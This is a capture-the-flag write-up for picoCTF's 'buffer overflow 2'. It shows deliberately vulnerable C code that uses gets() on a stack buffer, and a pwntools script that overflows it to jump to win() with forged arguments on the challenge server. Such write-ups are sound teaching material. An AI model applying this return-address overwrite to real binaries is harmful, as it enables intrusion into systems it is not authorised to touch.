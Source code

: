 # picoCTF - buffer overflow 2

### Binary protection


![](p/1.png)


This binary is better protected, then the previous one, now we have NX bit enabled (Non-executable stack), which means that we can't execute our own shellcode, however it doesn't prevent buffer overflow itself.

### Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

Our goal is to leverage buffer overflow vulnerability in `vuln()` function and jump to `win()`, however `win()` takes two arguments, which are stored on the stack, and then performs some type of validation (checks if provided args are 0xCAFEF00D and 0xF00DF00D).

So, we need to:

1. Get the address value of `win()`
2. Overflow the buffer and provide `win` address with appropriate args.

### Exploit

```python
from pwn import *

process = remote("saturn.picoctf.net","50040")
process.recvuntil(b"Please enter your string:")
log.info("Sending payload")


payload = b"A"*112 + p32(0x08049296) + b"BBBB" + p32(0xCAFEF00D) + p32(0xF00DF00D)
process.sendline(payload)
process.recv()
process.interactive()
```


![](p/2.png)


